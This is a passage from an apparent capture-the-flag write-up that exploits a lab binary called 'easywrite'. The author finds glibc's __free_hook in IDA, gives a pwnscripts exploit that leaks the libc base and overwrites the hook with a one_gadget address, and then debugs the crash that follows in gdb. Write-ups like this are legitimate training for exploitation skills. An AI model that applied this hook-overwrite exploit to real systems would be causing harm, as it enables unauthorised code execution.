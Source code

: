 After the Procedure Linkage Table, there's a long stretch of garbage in the form of the `.data` and `.bss` sections, along with a few other `__libc_*` sections that are basically never referenced either<sup>2</sup>.

A few hours of blank staring later, and my eyes finally saw something I'd missed the last 10 times I tried scanning IDA View-A:
```c
.bss:00000000001EEB28                 public __free_hook ; weak
.bss:00000000001EEB28 ; __int64 (__fastcall *_free_hook)(_QWORD, _QWORD)
.bss:00000000001EEB28 __free_hook     dq ?                    ; DATA XREF: LOAD:0000000000008A48↑o
.bss:00000000001EEB28                                         ; .got:__free_hook_ptr↑o
```
*__free_hook? Isn't that that thing that I heard about once a long time ago in a [writeup](https://teamrocketist.github.io/2019/09/09/Pwn-N1CTF-2019-warmup/) somewhere?*

To repeat something you may already know: `__free_hook()` is a function pointer that overrides the default behaviour of `free()` iff `__free_hook != NULL`. If we change `__free_hook` to point to a `one_gadget` (or something), we'll have beaten the challenge.

Let's try that.
```python
from pwnscripts import *
context.binary = 'easywrite'
context.libc_database = 'libc-database'
context.libc = 'libc-2.31.so'

context.log_level = 'debug'
r = context.binary.process()
context.libc.calc_base('setbuf', unpack_hex(r.recvline()))

free_hook = 0x00000000001EEB28+context.libc.address
r.sendafter('Input your message:', pack(context.libc.select_gadget(1)))
r.sendafter('Where to write?:', pack(free_hook))
r.sendafter('Any last message?:', b'\0')

r.interactive()
```
Things are never so simple, of course.
```python
[DEBUG] Received 0x12 bytes:
    b'Any last message?:'
[DEBUG] Sent 0x1 bytes:
    0 * 0x1
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[*] Got EOF while reading in interactive
$
```
A little backtracing in `gdb` shows the issue. First, we'll let it crash, and observe the backtrace:
```c
[#0] Id 1, Name: "ld-linux-x86-64", stopped 0x555556b192a0 in ?? (), reason: SIGSEGV
 trace 
[#0] 0x555556b192a0 → out 0x3c, al
[#1] 0x7f53d96b2376 → mov eax, 0x0
[#2] 0x7f53d96abb28 → __after_morecore_hook()
[#3] 0x555556b192a0 → out 0x3c, al
[#4] 0x555556b195b0 → add BYTE PTR [rax], al

```
The backtrace isn't actually that helpful, so I just hit `n` and `s` continually until I isolated the crashing instruction:
```c
$rax   : 0x0000555555fa02a0  →  0x00007f776fd29ce6  →  <execvpe+1142> mov rsi, r10
$rbx   : 0x00007f776fe383a0  →  0x8d4c5741fa1e0ff3
```